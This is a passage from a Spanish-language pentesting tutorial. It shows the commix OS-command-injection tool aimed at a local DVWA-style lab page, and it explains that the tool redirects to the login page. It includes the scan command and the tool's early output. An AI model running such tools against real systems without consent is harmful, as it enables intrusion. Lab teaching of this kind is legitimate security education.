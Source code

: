 <figure><img src="../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

Pillamos la `URL` de la pagina en el apartado en el que estamos, que en mi caso es este:

```
URL = http://192.168.5.211:1335/vulnerabilities/exec/#
```

Por lo que vamos a utilizar la herramienta de la siguiente forma basica:

```shell
commix -u http://192.168.5.211:1335/vulnerabilities/exec
```

Pero vamos a ver ahora que cuando metemos eso directamente nos va a redirigir al `login` ya que se requiere una autenticacion en la pagina y la herramienta nos va a dar esa opcion de elegir, si le damos a que nos continue la redireccion veremos que escaneara el `login` y no nos dara nada, pero ahora veremos como autenticarnos de esta forma para que no nos falle.

Info:

```
                                      __
   ___   ___     ___ ___     ___ ___ /\_\   __  _
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v4.0-stable
/\ \__//\ \/\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ https://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection Exploitation Tool
Copyright © 2014-2024 Anastasios Stasinopoulos (@ancst)
+--

(!) Legal disclaimer: Usage of commix for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

[04:24:29] [info] Testing connection to the target URL. 
Got a 302 redirect to 'http://192.168.5.211:1335/login.php'. Do you want to follow? [Y/n] > y
[04:25:18] [info] Following redirection to 'http://192.168.5.211:1335/login.php'. 
[04:25:18] [info] Checking if the target is protected by some kind of WAF/IPS.
[04:25:18] [info] Performing identification (passive) tests to the target URL.
```